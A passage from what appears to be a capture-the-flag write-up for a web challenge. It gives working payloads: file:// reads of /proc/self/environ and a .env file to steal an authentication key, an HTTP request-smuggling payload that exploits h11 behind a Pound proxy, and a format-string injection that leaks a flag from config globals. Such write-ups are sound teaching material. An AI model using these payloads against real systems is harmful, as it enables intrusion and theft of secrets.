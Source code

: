 Access the internal `.env` file by bypassing the scheme check with a space:

```
 file:///proc/self/cwd/.env or file:///proc/self/environ
```

This reveals the `AUTHENTICATION_KEY`.

### Step 2: Smuggle a Request

Here’s a example of the smuggling payload:

```python
smuggled = (
    "GET /update_allowlist?ip=172.18.0.1 HTTP/1.1\r\n"
    "Host: dev.rpc-service.ductf\r\n"
    f"Auth-Key: CTFSECRET123\r\n"
    "Action: {flag}\r\n"
    "X-Forwarded-For: 127.0.0.1\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "0\r\n"
    "\r\n"
)

payload = (
    "GET /ping HTTP/1.1\r\n"
    "Host: dev.rpc-service.ductf\r\n"
    "Connection: keep-alive\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "5\r\n"
    "AAAAAXX2\r\n"
    f"{len(smuggled) + 5:X}\r\n"
    "0\r\n"
    "\r\n"
    f"{smuggled}"
)
```
- The keep-alive header keeps the connection open.
- The chunk AAAAAXX2 misuses h11's lenient parser to bypass proper chunk termination.
- A second request is smuggled in as a large chunk, which h11 reads while the proxy (Pound) considers the request complete.

### Step 3: Poison the Error Log

Once your IP is allowlisted, send a request like this:

```python
req = Request("http://dev.rpc-service.ductf/stats?{config.__init__.__globals__[FLAG]}")
req.add_header("auth-key", authentication_key)
try:
    res = urlopen(req).read()
except:
    print("[+] Caused an error successfully")
```

